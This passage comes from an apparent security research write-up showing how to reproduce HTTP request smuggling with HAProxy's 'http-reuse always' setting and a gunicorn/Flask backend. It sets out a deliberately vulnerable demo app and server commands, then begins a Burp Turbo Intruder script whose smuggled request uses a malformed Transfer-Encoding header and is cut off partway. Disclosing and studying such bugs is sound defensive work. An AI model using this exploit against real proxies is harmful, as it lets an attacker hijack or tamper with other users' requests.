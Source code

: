 You may need to change `host.docker.internal` to point to the actual backend app (code below), as this currently assumes HAProxy is running in a docker container and the docker host is running the backend server.

The real key here is `http-reuse always`, which is not the default option for handling connection reuse in HAProxy. See more detail about this setting here: [http://cbonte.github.io/haproxy-dconv/1.9/configuration.html#4.2-http-reuse](http://cbonte.github.io/haproxy-dconv/1.9/configuration.html#4.2-http-reuse). This is essential to achieve request smuggling, as we want our victim connections from HAProxy to the backend server to reuse our attacker controlled connection.

### The backend

For the backend, we need a HTTP server which will go along with the HAProxy keep-alives, and which will parse the malformed Transfer-Encoding header as valid, and also prioritize the Transfer-Encoding over Content-Length. This could describe many backend servers, but one I've found is the Python gunicorn app server (tested against the current latest 19.9.0) when combined with any of the workers except sync (doesn't support keep-alive) and tornado. Below I have a demo web app using Flask that should be vulnerable to request smuggling when combined with the HAProxy bug. First let's install the prereqs:

```bash
pip install flask
pip install gunicorn
pip install gunicorn[gevent]
```

And the app `backend.py`:

```python
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def main():
    # the next line is required for Transfer-Encoding support in the request
    request.environ['wsgi.input_terminated'] = True
    headers = {}
    for header in request.headers:
        headers[header[0]] = header[1]
    return jsonify(body=request.data, headers=headers)
```

gunicorn is used to serve the application, and we need to specify a non default worker to enable keep-alive:

```bash
gunicorn --keep-alive 10 -k gevent --bind 0.0.0.0:6767 -w 4 backend:app
```

Now with HAProxy running the above config and our backend server running, we should be able to test it for smuggling. The best way to do this from my experience is using Burp Suite's Turbo Intruder extension with the following script:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint='http://127.0.0.1:1080',
                           concurrentConnections=1,
                           requestsPerConnection=1,
                           pipeline=False,
                           maxRetriesPerRequest=0
                           )

    attack = '''POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 37
Connection: keep-alive
Transfer-Encoding:chunked

```